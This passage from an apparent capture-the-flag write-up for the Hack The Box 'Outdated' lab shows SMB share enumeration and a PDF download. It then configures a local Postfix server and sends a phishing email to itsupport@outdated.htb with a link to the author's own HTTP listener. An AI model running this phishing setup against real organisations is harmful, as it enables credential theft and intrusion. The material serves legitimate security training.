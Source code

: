 ```bash
	WSUSTemp        Disk      A network share used by Local Publishing from a Remote WSUS Console Instance.

➜  outdated smbclient //10.10.11.175/Shares
Password for [WORKGROUP\void]:
smb: \> ls
  .                                   D        0  Mon Jun 20 17:01:33 2022
  ..                                  D        0  Mon Jun 20 17:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 17:00:32 2022

		9116415 blocks of size 4096. 1369832 blocks available

smb: \> get NOC_Reminder.pdf
getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (614.5 KiloBytes/sec) (average 614.5 KiloBytes/sec)
```

In the PDF we find information about a recent breach, where users are asked to mail information to itsupport@outdated.htb - this might be a good entrypoint for us using phising if we're able to compromize the SMTP server or setup our own SMTP server. 
![[/assets/images/htb-writeup-outdated/outdated01.png]]

Lets start by trying to setup a local SMTP server and mail a phishing/test link to ``itsupport``. Before sending the email, make sure to start a local HTTP server to capture the request if itsupport clicks the link.
```bash
➜  outdated apt install mailutils postfix
➜  outdated sudo postconf -e "mydestination = $myhostname, void, localhost.localdomain, localhost"
➜  outdated sudo postconf -e "mynetworks = 127.0.0.0/8, 10.10.14.0/24"
➜  outdated sudo postconf -e "inet_interfaces = all"
➜  outdated sudo postconf -e "inet_protocols = ipv4"
➜  outdated sudo postconf -e "recipient_delimiter = +"
➜  outdated sudo postconf -e "lmtp_host_lookup = native"
➜  outdated sudo postconf -e "smtp_host_lookup = native"

➜  outdated service postfix restart
➜  outdated telnet localhost 25

220 void.xxxxx.se ESMTP Postfix (Debian/GNU)
ehlo localhost
250-void.xxxxx.se
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
mail from: void@void
250 2.1.0 Ok
rcpt to: itsupport@outdated.htb
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Subject: Phishing
http://10.10.14.6:8080
.
250 2.0.0 Ok: queued as 0C51812101C
quit
221 2.0.0 Bye
```